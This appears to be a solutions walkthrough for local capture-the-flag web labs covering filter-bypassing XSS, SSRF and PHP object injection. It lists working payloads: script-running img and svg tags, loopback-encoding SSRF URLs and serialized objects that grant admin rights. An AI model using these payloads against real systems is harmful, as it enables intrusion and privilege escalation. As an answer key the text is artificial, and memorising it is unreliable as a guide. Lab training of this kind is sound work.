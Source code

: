 ### Lab 5: Advanced XSS - Port 5005
**Difficulty:** Insane  
**Vulnerability:** Cross-Site Scripting with multiple filter bypasses

**How to Solve:**
1. Access http://localhost:5005
2. Submit a comment with XSS payload that bypasses filters:
   ```html
   <img src=x onerror="fetch('/admin.php?admin=true').then(r=>r.text()).then(d=>document.body.innerHTML=d)">
   ```
3. Alternative payloads:
   ```html
   <svg onload="location='admin.php?admin=true'">
   <iframe src="admin.php?admin=true"></iframe>
   ```
4. Access admin panel to get the flag

**Key Points:**
- Multiple layers of filtering (HTML entities, keyword blocking, regex)
- Admin panel accessible via `?admin=true`
- Flag is displayed in admin panel

---

### Lab 6: SSRF - Port 5006
**Difficulty:** Insane  
**Vulnerability:** Server-Side Request Forgery with multiple bypasses

**How to Solve:**
1. Access http://localhost:5006
2. Use SSRF payloads to bypass filters:
   - `http://0.0.0.0/flag.txt`
   - `http://127.0.0.1:80/flag.txt`
   - `http://[::1]/flag.txt`
   - `http://localhost./flag.txt`
3. Alternative bypasses:
   - `http://0x7f000001/flag.txt` (hex encoding)
   - `http://2130706433/flag.txt` (decimal encoding)

**Key Points:**
- Multiple IP blocking mechanisms
- Port restrictions
- Protocol filtering
- Various encoding bypasses work

---

### Lab 7: Deserialization - Port 5007
**Difficulty:** Insane  
**Vulnerability:** PHP Object Injection

**How to Solve:**
1. Access http://localhost:5007
2. Create malicious serialized object:
   ```php
   O:4:"User":3:{s:8:"username";s:5:"admin";s:4:"role";s:5:"admin";s:7:"isAdmin";b:1;}
   ```
3. Alternative using Config class:
   ```php
   O:6:"Config":1:{s:8:"settings";a:1:{s:5:"admin";b:1;}}
   ```
4. Submit the serialized data
5. Flag will be displayed when object is destroyed/unserialized
